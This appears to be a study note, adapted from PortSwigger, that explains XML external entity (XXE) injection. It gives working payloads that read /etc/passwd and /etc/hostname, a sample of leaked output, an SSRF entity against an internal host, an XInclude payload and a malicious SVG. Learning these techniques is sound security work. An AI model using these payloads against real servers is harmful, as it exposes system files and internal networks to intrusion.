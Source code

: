 # XXE Injection

Source: [portswigger](https://portswigger.net/web-security/xxe)

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## XML

E**x**tensible **M**arkup **L**anguage is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Eg:
```xml
<?xml version="1.0"?>
<Person>
  <Name>Sam</Name>
  <Age>11</Age>
</Person>
```
- `<?xml version="1.0"?>` is meta data for xml parser. This is also optional.
- <Person>....</Person> is root element. Only 1 exists in XML.
- `<Name>Sam</Name>`,`<Age>11</Age>` are children element

### Entities
Entities are like variables which stores value to use multiple time. Entities are defined in document Type definition(DTD). Eg:
```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
  <!ENTITY name "Sam">
]>
<Person>
  <Name>&name;</Name>
  <Age>11</Age>
</Person>
```
- `<!DOCTYPE Person [.......]>` is DTD.

### XML external entities
XML external entities are a type of entity whose definition is located outside of the DTD where they are declared.
The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:
```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```
The URL can use the file:// protocol, and so external entities can be loaded from file. For example:
```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```
External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

## XXE Attacks
There are various types of XXE attacks:

- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.
### Exploiting XXE to retrieve files
Ways:
- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.\
For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
### Exploiting XXE to perform SSRF attacks
Through SSRF we can access internal servers or websites only accessible to the target server and exploit them. Eg:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### XInclude attacks
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### XXE attacks via file upload
Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities. Eg:
```XML
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### XXE attacks via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

Then you might be able submit the following request, with the same result:

POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

